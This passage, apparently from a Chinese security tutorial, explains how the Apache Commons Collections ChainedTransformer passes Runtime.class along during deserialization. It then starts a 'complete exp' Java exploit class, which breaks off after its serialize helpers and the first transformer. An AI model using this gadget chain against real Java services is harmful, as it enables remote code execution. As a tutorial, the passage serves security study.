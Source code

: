 我们动调一下。

[![](assets/1700127979-8354124dc7630ac83d53f85f72e135cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155043-d835fa2e-8454-1.png)

当我们第一次调用`iTransformers[i].transform(object);`时，会这些 ConstantTransformer 类的 transform 返回 iConstant（我们可以输入可控，这里来我们就输入 Runtime.class）然后`object = iTransformers[i].transform(object);`将 iConstant 赋值给 object 这样再次到`iTransformers[i].transform(object);`的时候就变成了`iTransformers[i].transform(Runtime.class);`

### 完整 exp

```bash
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException, IOException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {

        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
```